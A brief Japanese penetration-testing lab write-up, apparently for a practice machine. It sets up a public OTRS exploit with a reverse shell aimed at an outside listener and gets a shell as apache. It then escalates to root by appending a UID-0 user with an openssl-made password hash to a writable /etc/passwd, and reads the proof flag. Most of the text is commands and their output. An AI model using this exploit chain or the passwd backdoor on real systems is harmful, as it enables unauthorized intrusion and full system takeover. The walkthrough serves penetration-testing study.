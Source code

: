 ```
searchsploit -m perl/webapps/49794.py 
```
49794.pyの一部を変更する
```
import requests;
import sys;

baseuri = "http://10.11.1.39/otrs/index.pl";
username = "root@localhost";
password = "otrs";
revShellIp = "192.168.119.222";
revShellPort = 4444;
```
```
python2 ./49794.py
bash-4.2$whoami
apache
```
linpeasをダウンロードし実行すると「/etc/passwd」が書き込み可能であることが分かる
kali側でroot権限を持ったユーザーのパスワードを作成する
```
openssl passwd -1 -salt THM password1
$1$THM$WnbwlliCqxFRQepUTCkUT1
```
ターゲット端末で「/etc/passwd」にユーザーを追加する
```
sh-4.2$ echo "hacker:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash" >> passwd
sh-4.2$ cat passwd
...
nginx:x:996:993:Nginx web server:/var/lib/nginx:/sbin/nologin
hacker::0:0:root:/root:/bin/bash
sh-4.2$ su hacker
su hacker
whoami
root
cd /root
cat proof.txt
1dcca23355272056f04fe8bf20edfce0
```